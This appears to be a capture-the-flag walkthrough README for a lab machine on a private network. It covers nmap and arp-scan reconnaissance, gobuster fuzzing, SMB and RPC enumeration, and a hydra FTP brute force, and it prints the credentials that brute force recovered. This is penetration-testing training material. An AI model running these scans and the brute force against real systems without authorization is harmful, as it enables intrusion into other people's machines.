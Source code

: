 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/8309287c-1280-4c6c-aab7-4751ac0c2279"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/96c23aba-8922-4021-9daf-b626cd3c91aa)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/d28063e8-0e31-4da3-a932-cad363ed36ba)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.180 -oG allports
```
![image](https://github.com/user-attachments/assets/7e2bca7c-88f6-4548-9b2c-7f3bb158aad3)

```bash
nmap -sCV -p21,80,135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.180 -oN targeted
```
![image](https://github.com/user-attachments/assets/1e8cfde2-0bc6-40e0-b81d-bb7623cdf150)

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h2>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/f5a410d8-838e-4e26-aaf3-5adee82a12f6)

``CRTL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/1ad23d93-a26a-4787-b8b8-d1a4b15e0d24)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.180/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/05ea476b-4c5b-4d69-a7ce-7100fca16a53)

```bash
whatweb https://192.168.1.180
```
![image](https://github.com/user-attachments/assets/a9485353-0de8-4b79-bd39-468b80a2a6aa)

### **we didn't find anything relevant**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
sudo nmap --script "vuln and safe" -p445 192.168.1.180
```
![image](https://github.com/user-attachments/assets/a10cfba9-81df-4752-8595-0cfb87186bdc)

### **not vulnerable to EternalBlue**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"></picture>RPC Protocol</h2>

```bash
rpcclient -U "" -N 192.168.1.180
srvinfo
querydispinfo
enumdomusers
getdompwinfo
```
![image](https://github.com/user-attachments/assets/c1825bc6-33ed-4720-8da0-ee814e5c3b52)

### **we found nothing**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 21</h2>

### **Brute Force**
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt ftp://192.168.1.180
```
![image](https://github.com/user-attachments/assets/f87eb6f4-5b0e-4b8e-bcba-339876bf1268)

USER:    info
PASSWD:  PolniyPizdec0211

### ** FTP Connection**
```bash
ftp 192.168.1.180
```
![image](https://github.com/user-attachments/assets/deac17fa-b655-4e1a-b01d-190d7f24df61)


